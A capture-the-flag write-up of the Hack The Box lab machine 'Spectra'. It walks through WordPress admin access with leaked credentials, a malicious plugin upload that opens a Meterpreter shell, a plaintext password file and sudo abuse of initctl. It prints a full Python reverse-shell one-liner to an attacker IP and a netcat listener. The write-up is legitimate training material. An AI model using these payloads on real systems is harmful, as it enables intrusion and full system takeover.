



Hackthebox Spectra
I rooted Spectra which was an Easy Other type machine. This box was cool, it implicates malicious plugin upload on WordPress, credentials find on “/etc/autologin/passwd” and sudo capabilities on “initctl”.
Foothold
So, classic nmap scan :
➜ Spectra nmap -A -p- -T4 10.10.10.229
Starting Nmap 7.70 ( https://nmap.org ) at 2021-03-29 09:11 CEST
Nmap scan report for 10.10.10.229
Host is up (0.073s latency).
Not shown: 65532 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey:
|_ 4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp open http nginx 1.17.4
|_http-server-header: nginx/1.17.4
|_http-title: Site doesn t have a title (text/html).
3306/tcp open mysql MySQL (unauthorized)
So we are gonna looking at port 80, the web port.
Interesting page, with a testing part. We need to change our /etc/hosts with spectra.htb.

We see WordPress files, but many errors when we want to look at them. After few enumerations we found a file called -> wp-config.php.save we checked the source code and :

We found DB creds, we try to connect with the SQL port but impossible. So we turn on the main WordPress page :

We tried to log in as administrator:devteam01 (which was the password that we found), and yup, we’re log in. Now, classic method when you are administrator on a WordPress website -> malicious plugin upload. We’re going to use https://github.com/wetw0rk/malicious-wordpress-plugin We just have to run :
$ python wordpwn.py 10.10.14.193 8888 Y
resource (wordpress.rc)> set LHOST 10.10.14.193
LHOST => 10.10.14.193
resource (wordpress.rc)> set LPORT 8888
LPORT => 8888
resource (wordpress.rc)> exploit
[*] Started reverse TCP handler on 10.10.14.193:8888
Upload the .zip that the script create on the plugin page, activate it, and ping http://spectra.htb/main//wp-content/plugins/malicious/wetw0rk_maybe.php
[*] Sending stage (39282 bytes) to 10.10.10.229
[*] Meterpreter session 1 opened (10.10.14.193:8888 -> 10.10.10.229:34222) at 2021-03-29 22:41:31 +0200
meterpreter > shell
Process 6532 created.
Channel 0 created.
python -c 'import pty; pty.spawn("/bin/sh")'
$
We have a shell é_é We just have to run the script to enumerate a box -> linpeas.sh (https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) And the script found :
/etc/autologin/passwd
-rw-r--r-- 1 root root 19 Feb 3 16:43 /etc/autologin/passwd
SummerHereWeCome!!
We tried to connect in ssh with the user katie and this password :
➜ Spectra ssh katie@10.10.10.229
katie@spectra ~ $ id
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
Yess, we’re log in. We move into the root part.
Root part
katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
(ALL) SETENV: NOPASSWD: /sbin/initctl
So yep, we could exploit this binary to execute a command with root rights.
After few searches, we found an interesting path, linked with initctl -> /etc/init
Those many scripts are launched with initctl.
We found many scripts where we could write on them. So now, game over, we just have to put a reverse shell command in one of the scripts, and run the script with sudo initcl scriptname.
description "Test node.js server"
author "katie"
start on filesystem or runlevel [2345]
stop on shutdown
script
export HOME="/srv"
echo $$ > /var/run/nodetest.pid
exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js
end script
pre-start script
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.193",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
echo "[`date`] Node Test Starting" >> /var/log/nodetest.log
end script
pre-stop script
rm /var/run/nodetest.pid
echo "[`date`] Node Test Stopping" >> /var/log/nodetest.log
end script
Like you could see, we put a reverse shell command in python in the pre-startpart:
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.193",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
To finish :
# on the box : (test is the script name)
-bash-4.3$ sudo initctl start test
test start/running, process 51967
Netcat listening on port 8888 (specified port in the python command) on our machine
nc -lvnp 8888
Connection from 10.10.10.229:45612
# whoami & id
uid=0(root) gid=0(root) groups=0(root)
# root
Really enjoyed this box, because I had not yet had the opportunity to play with malicious WordPress plugin, and initctl command Hope you enjoyed this WU and see you soon :)